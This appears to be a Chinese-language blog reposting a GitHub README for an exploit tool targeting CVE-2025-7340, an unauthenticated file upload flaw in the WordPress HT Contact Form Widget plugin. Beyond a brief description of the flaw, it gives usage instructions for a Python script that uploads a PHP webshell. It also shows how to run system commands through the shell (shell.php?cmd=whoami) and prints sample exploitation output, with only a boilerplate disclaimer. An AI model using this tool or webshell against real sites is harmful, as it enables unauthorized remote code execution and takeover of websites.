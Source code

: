 ```yaml
---
date: 2025-08-02T01:12:17+08:00
title: WordPress HT Contact Form插件未授权任意文件上传漏洞(CVE-2025-7340)利用分析
tags: [漏洞利用, WordPress安全, 文件上传漏洞, CVE-2025-7340]
authors: qife
description: 本文详细分析了WordPress插件HT Contact Form Widget存在的未授权任意文件上传漏洞(CVE-2025-7340)，包含漏洞描述、利用脚本使用方法及技术细节，该漏洞可导致远程代码执行。
---
```


# 🚨 HT Contact Form Widget <= 2.2.1 - 未授权任意文件上传漏洞(CVE-2025-7340)

**CVE编号:** CVE-2025-7340  
**CVSS评分:** 9.8 (严重)

## 📝 漏洞描述

WordPress插件**HT Contact Form Widget For Elementor Page Builder & Gutenberg Blocks & Form Builder.**在2.2.1及之前版本中，`temp_file_upload`函数缺少文件类型验证，导致存在任意文件上传漏洞。

该漏洞允许**未认证的攻击者**向服务器上传任意文件，可能导致**远程代码执行(RCE)**。

---

## ⚡ 漏洞利用脚本

本仓库包含一个Python利用脚本，可自动发现存在漏洞的表单并向目标网站上传Webshell。

脚本会智能检测所需参数(`nonce`, `form_id`, `ajax endpoint`)，并将PHP Webshell上传至漏洞路径。

✅ **存在漏洞的表单URL示例:**

```
http://target.com/contact/
```

✅ **目标页面必须包含存在漏洞的表单**

---

## 📦 环境要求

运行脚本前需安装以下Python模块:

```bash
pip install -r requirements.txt
```

`requirements.txt`内容:

```
requests
colorama
```

---

## � 使用方法

```bash
usage: CVE-2025-7340.py [-h] 

CVE-2025-7340漏洞利用脚本 - 未授权任意文件上传 | 作者: Khaled Alenazi (Nxploited)

options:
  -h, --help     显示帮助信息
  -u, --url URL  目标URL 例如 http(s)://target.com
```

### 选项说明:
| 选项            | 描述                                     |
|-------------------|-------------------------------------------------|
| `-h, --help`      | 显示帮助信息                |
| `-u, --url URL`   | 目标URL 例如 `http(s)://target.com/contact` |

---

## 🐚 Webshell使用说明

漏洞利用成功后，可通过给定路径访问上传的Webshell。

附加`?cmd=<your_command>`参数可执行系统命令。

✅ 示例:
```
http://target.com/wp-content/uploads/ht_form/temp/shell.php?cmd=whoami
```

---

## 🖥️ 示例输出

```
开始对目标进行漏洞利用...
获取目标页面...
提取参数...
获取Nonce: 346c441903
AJAX端点: http://nxploit.ddev.site/wp-admin/admin-ajax.php
表单ID: 86
生成Webshell...
上传Webshell，请稍候...

[+] 漏洞利用成功!

访问路径: wp-content/uploads/ht_form/temp/687590d90ac1c-shell.php

作者: Khaled Alenazi (Nxploited) - GitHub: https://github.com/Nxploited
```

---

## 🛑 免责声明

本工具仅用于**教育研究目的**。  
作者**不对**代码滥用造成的任何损害负责。  
测试任何系统前请务必获得明确授权。

---

## 👨‍💻 作者

**Khaled Alenazi (Nxploited)**  
[GitHub: Nxploited](https://github.com/Nxploited)